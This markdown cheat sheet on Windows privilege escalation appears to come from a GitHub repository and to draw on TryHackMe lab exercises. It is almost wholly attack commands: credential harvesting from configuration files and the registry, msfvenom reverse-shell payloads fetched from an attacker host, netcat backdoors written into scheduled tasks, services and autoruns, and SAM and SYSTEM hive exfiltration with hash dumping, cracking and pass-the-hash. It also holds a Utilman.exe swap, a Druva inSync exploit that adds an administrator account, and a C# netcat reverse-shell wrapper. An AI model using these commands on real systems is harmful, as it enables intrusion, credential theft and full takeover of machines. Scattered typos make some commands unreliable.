


# Readable Credentials
### Places to look for credentials
```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
###  list save credentials
```
cmdkey /list
```
### use saved credentials (see above)
```
runas /savecred /user:$user cmd.exe
```
### look for credentials in IIS configuration files
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
### look for connection string in on of the above configuration files
```
$file | findstr connectionString
```
### search in registry for proxy configurations to see if you can see proxy credentials
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
# Vulnerable Tasks

### search tasks and display taskname and user
```
schtasks /query /fo LIST /v | findstr /R /C:"TaskName:" /C:"Run As User:"
```

### search tasksk for "Task to Run:" and "Run as user:"
```
schtasks /query /tn $taskname /fo list /v
```
### check if you have write permissions on the executable specified in "Task to Run:"
```
icacls $executable
```
### then just change the executable to be a backdoor. If the executable is a batch file and you have nc64 on the system do:
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > $executable
```
### start a listener on the attacker machine
```
nc -lvp $localport
```
### then run the task
```
schtasks /run /tn $taskname
```
# AlwaysInstallElevated
### If in registry HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer AlwaysInstallElevated is set. an msi file can created to run with higher privileges then the current executing use. the the registry key
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
### create such a msi file which act as a reverse shell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attackerip LPORT=$localport -f msi -o malicious.msi
```
### create corresponding metasploit handler 
```
```
### run the installer on compromised host
```
msiexec /quiet /qn /i malicious.msi
```
# Vulnerable Services
### search for non default services 
```
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```

### Query Services an for interesting services
```
sc qc $servicename
```
### check if their executables can be modified by the current user
```
icacls $executable
```
### create a exe-service payload with metasploit
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attackerip LPORT=$localport -f exe-service -o rev-svc.exe
```
### create a http server in the same direcotry to make this paload acessible via http server
```
python -m http.server
```
### on compromised host get the payload 
```
wget http://$attackerip:8000/rev-svc.exe -O rev-svc.exe
```
### backup the original service exe
```
move $executable $executable.bkp
```
### replace service executable with paylod 
```
move rev-svc.exe $executable
```
### Grant full permissions to Everyone group
```
icals $exectuable /grant Everyone:F
```

### start listener on attacker machine
```
nc -lvp $localport
```

### restart the service
```
sc stop $servicename
sc start $servicename
```
# Unquoted path
### Check for services with unquotaded pathes as executalbes like C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe
```
sc qc $servicename
```

### check if you can create files in C:\\Myprograms
```
icacls C:\\Myprograms
```
### alternativley check permissions with powershell
```
powershell "get-acl -Path 'C:\Mayprograms' | format-list"
```
### create payload as service executable
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attackerip LPORT=$localport -f exe-service -o rev-svc.exe
```

### create listener on attacker machine 
```
nc -lvp $localport
```

### create http server to make payload accessible via http server
```
python -m http.server
```

### on compromised host get the payload
```
wget http://$attackerip:8000/rev-svc.exe -O rev-svc.exe
```
###
```
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
```
### restart the service
```
sc stop $servicename
sc start $servicename
```
# Insecure Service Permission
### check service DACL if you can change its configuration. If you e.g. find for the current user SERVICE_ALL_ACCESS, than you can modify the service configuration
```
accesschk64.exe -qlc $servicname
```
### create payload as service exe 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attackerip LPORT=$localport -f exe-service -o rev-svc.exe
```
### create listener on attacker machine 
```
nc -lvp $localport
```

### create http server to make payload accessible via http server
```
python -m http.server
```

### on compromised host get the payload
```
wget http://$attackerip:8000/rev-svc.exe -O rev-svc.exe
```
### grant full permissions to Everyone group
```
icacls rev-svc.exe /grant Everyone:F
```
### change the service configuration to use the payload as executable
```
sc config $servicename binPath= "$pathtopaylod\rev-svc3.exe" obj= LocalSystem
```
### restart the service
```
sc stop $servicename
sc start $servicename
```
#  SeBackup and SeRestore Privileges
###
### search for SeBackup and SeRestore privileges
```
whoami /priv
```
### create backups of sam and system hives
```
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive
```
### create directory on attacker machine
```
mkdir share
```
### create share named public pointing to the share directory, which require the username and password of current windows session
```
python3.9 /opt/impacket/examples/smbserver.py share . -smb2support -username THMBackup -password CopyMaster555
```

### connect to share on compromised machine
```
net use \\$attackerip\share /USER:THMBackup CopyMaster555
```
### copy the backup files to attacker machine
```
copy C:\Users\THMBackup\system.hive \\$attackerip\share\
 C:\Users\THMBackup\sam.hive \\$attackerip\share\
```
### Dump password hashes
```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
### perform pass the hash attack to access vicitim as administrator
```
python3.9 /opt/impacket/examples/psexec.py -hashes $dumpedhash $username@$targetip
```
# SeTakeOwnership Privilege
### open cmd as administrator
### search for SeTakeOwnership privilege
```
whoami /priv
```
### take ownership over Utilman.exe
```
takeown /f C:\Windows\System32\Utilman.exe
```
### Give you full permissions over Utilman.exe
```
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```
### copy cmd.exe to Utilman.exe
```
copy :\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```
### lock the screen and press "Ease of Access" Button
```
```
# SeImpersonate / SeAssignPrimaryToken Privileges
### check for SeImpersonate / Se AssignPrimaryToken
```
whoami /priv
```
### create listener on attacker machine
```
nc -lvp 4444
```
### Execute RogueWinRm exploit. (RogueWinRm and nc64 must be available on the compromised host)
```
RogueWinRM.exe -p "c64.exe" -a "-e cmd.exe $attackerip $localport"
```
# Abuse vulnerable software
### gather information about installed software (may give not all installed software. check also other sources like desktop shortcuts, services etc.
```
wmic product get name,version,vendor
```
### if Druva inSync 6.6.3 is installed on the compromised host, execute the follwing powershell script to create a user pwnd and add him to administrators group
```
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
### verify if user was created correclty
```
net user pwnd
```
### open cmd as admin and login with pwnd user
# Tools of trade for priv escalation
### WinPEAS
### PrivescCheck
```
https://github.com/itm4n/PrivescCheck
```
### WES-NG: Windows Exploit Suggester - Next Generation
```
https://github.com/bitsadmin/wesng
```
# Further links for windows privilege escalation
### PayloadAllTheThings
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
```
### Priv2Admin
```
https://github.com/gtworek/Priv2Admin
```
### RogueWinRM
```
https://github.com/antonioCoco/RogueWinRM
```
### Potatos  
```
https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html
```
### Decoders blog
```
https://decoder.cloud/
```
### Token kidnapping
```
https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf
```
### HackTrickz
```
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation
```
###
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```
# Week registry permissions
### check for services (maybe one running with higher permissions)
```
sc cq $servicename
```
### check if service registry entry can be modified
```
ccesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\$servicename
```
### create reverseshell with metasploit
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attackerip LPORT=$localport -f exe -o reverse.exe
```
### transfere the reverse.exe to compromised machine
```
python -m http.server
curl http://$attackerip:8000/reverse.exe --output reverse.exe
```
### create listener on attacker machine
```
sudo nc -nvlp $localport
```
### modify registry entry to point to reverseshell
```
reg add HKLM\SYSTEM\CurrentControlSet\services\$servicename /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
### start service
```
net start $servicename
```
# Insecure service executable
### check for services (maybe one running with higher permissions)
```
sc cq $servicename
```
### check if service executable can be modified 
```
accesschk.exe /accepteula -quvw $serviceexe
```
### create reverseshell with metasploit
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attackerip LPORT=$localport -f exe -o reverse.exe
```
### transfere the reverse.exe to compromised machine
```
python -m http.server
curl http://$attackerip:8000/reverse.exe --output reverse.exe
```
### create listener on attacker machine
```
sudo nc -nvlp $localport
```
### copy reverse shell to service executable
```
copy revere.exe $serviceexe
```
### start service
```
net start §servicename 
```
# Autoruns
### check for executables in autorun
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
### check if you can modify them
```
C:\PrivEsc\accesschk.exe /accepteula -wvu $autorunexe
```
### create reverseshell with metasploit
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attackerip LPORT=$localport -f exe -o reverse.exe
```
### transfere the reverse.exe to compromised machine
```
python -m http.server
curl http://$attackerip:8000/reverse.exe --output reverse.exe
```
### create listener on attacker machine
```
sudo nc -nvlp $localport
```
### run reverse.exe on compromised host
```
./reverse.exe
```
### copy reverse shell to auto run executalbe
```
copy reverse.exe $autorunexe
```
### make sure administrator logs in again
```
```
# Passwords in Registry
### search registry for passwords
```
reg query HKLM /f password /t REG_SZ /s
```
### if you find winlogon password use on kali
```
winexe -U '$username%$password' //10.10.61.34 cmd.exe
```
# Security Account Manager
### if you can access SAM and SYSTEM hives on compromised machine, first create share on attacker machine
```
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username $victimsuser -password $victimspassword public share
```
### copy the hives from compromised machine to attacker ussing the share
```
copy SAM \\$attackerip\share
copy SYSTEM \\$attackerip\share
```
### dump credentials using impacket
```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
### alternatively dump credentials using credump7
```
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM
```
### crack the hashes using hashcat
```
hashcat -m 1000 --force $hash $wordlist
```
### alternatively use pth-winexe to pass the hash 
```
pth-win.exe -U '$user%$hash' //$ip cmd.exe 
```
# scheduled tasks
### find a script or executable which is running continuesly as a task e.g.
```
type $executable
```
### check if you can modifiy the task
```
accesschk.exe $executable
```
### create reverseshell with metasploit
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attackerip LPORT=$localport -f exe -o reverse.exe
```
### transfere the reverse.exe to compromised machine
```
python -m http.server
curl http://$attackerip:8000/reverse.exe --output reverse.exe
```
### create listener on attacker machine
```
sudo nc -nvlp $localport
```
### copy reverse.exe to executable 
```
copy reverse.exe $executable
```
### wait until reverse shell opens


### create reverseshell with metasploit
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attackerip LPORT=$localport -f exe -o reverse.exe
```
### transfere the reverse.exe to compromised machine
```
python -m http.server
curl http://$attackerip:8000/reverse.exe --output reverse.exe
```
### create listener on attacker machine
```
sudo nc -nvlp $localport
```
### run reverse.exe on compromised host

# Insecure GUI Apps
### check if you can open any GUI executable which runs as admin
```
tasklist /V | findstr $executable
```
### check then if you can open a file via open dialog box
### if yes, than entr in the "navigation" field
```
file://c:/windows/system32/cmd.exe
```
# Startup
### check if you can write to start up folder
```
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```
### If yes, create the following vbs script CreateShortcut.vbs
```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink= oWS.CreateShortcut(sLinkFile)
oLink.TargetPath="$path\reverse.exe"
oLink.Save
```
### create reverseshell with metasploit
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attackerip LPORT=$localport -f exe -o reverse.exe
```
### transfere the reverse.exe to compromised machine
```
python -m http.server
curl http://$attackerip:8000/reverse.exe --output reverse.exe
```
### create listener on attacker machine
```
sudo nc -nvlp $localport
```
### execute the vbs script 
```
cscript CreateShortcut.vbs
```
### simulate admin login via rdp and wait for revsere shell
# Compile nc for Windows
### clone repository
```
git clone https://github.com/int0x33/nc.exe/
```
### install mingw on kali
```
sudo apt install mingw-w64
```
### make sure makefile points to the correct compiler (e. g. you want compile x64 binary)
```
CC=x86_64-w64-mingw32-gcc
```
### compile
```
make
```
### start webserver
```
python -m http.server
```
### download nc on compromised machine
```
curl http://$attackerip/nc64.exe -o c:\\windows\\temp\\nc64.exe
```
### start listener on attacker macine
```
nc -lvnp 4444
```
### start nc on compromised machine (wrapp  inside a powershell process to keep it from exiting early)
```
powershell.exe c:\\windows\\temp\\nc64.exe $attackerip 4444 -e cmd.exe
```
### 
```
```
###
```
```

```
./reverse.exe
```
# DLL Hijacking
### get procmon

### set following filters 

Replace Processname</br>

### run the application to investigate and look for


# Some tipps
## compile c# executeable on linux which starts nc to return a reverse shell to attacker ip
### create Wrapper.cs with following content 
```
using System;
using System.Diagnostics;

namespace Wrapper {
        public class Program {
                public static void Main() {
                        Process proc = new Process();
                        ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc.exe", "$attackerip $port");
                        procInfo.CreateNoWindow = true;
                        proc.StartInfo = procInfo;
                        proc.Start();
                }
        }

}

```
### install mono
```
sudo apt install mono-devel
```
### compile Wrapper.cs
```
mcs Wrapper.cs
```
###
## Metasploit reverseshell session
### start metasploit
```
msfconsle
```
### creat multihandler
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $attackerip
set LPORT $port
run
```
### creat payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$attackerip LPORT=$port -f exe -o shell.exe
```
### create payload for x64
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$attackerip LPORT=$port -f exe -o shell.exe
```
### run shell.exe in compromised host
```
./shell.exe
```
## Metasploit: search vor vulnerabilities on host
### see above to create a session
```
```
### use exploit suggester
```
use post/multi/recon/local_exploit_suggester
```
### set the created session
```
set session $sessionid
```
### execute 
```
run
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
###
```
```
